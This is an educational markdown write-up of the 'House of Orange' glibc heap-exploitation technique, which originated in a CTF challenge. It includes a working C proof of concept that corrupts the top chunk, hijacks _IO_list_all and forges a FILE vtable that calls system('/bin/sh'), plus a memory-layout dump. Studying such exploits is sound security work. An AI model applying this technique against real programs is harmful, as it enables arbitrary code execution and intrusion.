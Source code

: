 # House of Orange
> LongChampion, 25/03/2020

Finally, I have understood this attack. To do that, I read both the source code in this repository and the [writeup of origin "House of Orange"](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html) (in fact, it is a real challenge in CTF contest).  
The attack can be divide into 3 stages:
1. Corrupt the top_chunk so that we have a controllable chunk in unsorted_bin.
2. Use `unsorted_bin_attach` to overwrite `_IO_list_all` of **GLIBC** with pointer to our chunk.
3. Forge a fake FILE_IO struct and a vtable to spawn a shell.

Look at the example below:
```c
#include <stdlib.h>

#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chuck *fd, *bk;
};

int main()
{
    // Stage 1
    void *p1 = malloc(0x400 - 8);
    struct Chunk *TOP = (struct Chunk *) (p1 + 0x400 - 0x10);
    TOP->size = 0xc00 | PREV_INUSE;
    void *p2 = malloc(0x1000 - 8);

    // Stage 2
    TOP->size = 0x60 | PREV_INUSE;
    long long IO_LIST_ALL = (long long) TOP->fd + 0x9a8;
    TOP->bk = (struct Chunk *) (IO_LIST_ALL - 0x10);

    // Stage 3
    long long *Fake_FileIO = (long long *) TOP;
    long long *Fake_vtable = (long long *) &Fake_FileIO[28];
    Fake_FileIO[0] = 0x68732f6e69622f;    // hex of "/bin/sh\0"
    Fake_FileIO[4] = 2;                   // _IO_write_base
    Fake_FileIO[5] = 3;                   // _IO_write_ptr
    Fake_FileIO[12] = 0;                  // _mode
    Fake_FileIO[27] = Fake_vtable;        // Pointer to vtable
    Fake_vtable[3] = system;

    malloc(10);
}
```
## Stage 1
In stage 1, we allocate one chunk and overflow it to overwrite top_chunk's size. The new top_chunk's size must be smaller than the origin value as well as aligned correctly. Don't forget to set `PREV_INUSE` flag in new size. Then we allocate another chunk with request size larger than current size of top_chunk. This activity will make **GLIBC** invoke `sysmalloc` to free and push out top_chunk into unsorted_bin. **GLIBC** also creates a new top_chunk but we don't care about it at this time.

## Stage 2
Is this stage, we continue use overflow to control content of old top_chunk (which is now in unsorted_bin). Its size is changed to 0x60 to make it become small chunk (not fast chunk). Its `bk` pointer is set to offset 0x10 before `_IO_list_all` in **GLIBC**. According to `unsorted_bin_attack`, `_IO_list_all` will be overwrite and point to `main_arena+88`, when `main_arena_88` is point to... our old top_chunk.

## Stage 3
This stage is very easy if you have known about structure of FILE_IO and vtable. Let Google-fu or look at [this article](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/). I will show you the memory layout of our top_chunk to increase visibility.
```
Address     Value               Value
0x602400:	0x0068732f6e69622f	0x0000000000000061
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510
0x602420:	0x0000000000000002	0x0000000000000003
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x0000000000000000
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000000000	0x0000000000000000
0x6024b0:	0x0000000000000000	0x0000000000000000
0x6024c0:	0x0000000000000000	0x0000000000000000
0x6024d0:	0x0000000000000000	0x00000000006024e0
0x6024e0:	0x0000000000000000	0x0000000000000000
0x6024f0:	0x0000000000000000	0x0000000000400440
```
Out top_chunk is start at 0x602400, it is also the begining of fake FILE_IO. A fake vtable is start at 0x6024e0, and imediately before it is a vtable pointer of fake FILE_IO. Try to collate this layout with the example code to find the meaning of each value.

The last step is call `malloc` function to trigger our trap, so **GLIBC** will fall into it and give us a shell.

## Note
- In practice, this attack require heap leak and **GLIBC** leak to perform.
- I think we can replace top_chunk with an arbitrary unsorted chunk, did you try it?
- "At stage 2, change top_chunk size to 0x60 make it become small chunk". Why not fast chunk? Remember that, when a fast chunk is freed, it will be push into fastbin, not unsorted_bin!
- As you can see, our top_chunk and our fake FILE_IO is overlapped, but they fit with each other perfectly thanks to *GOD*.
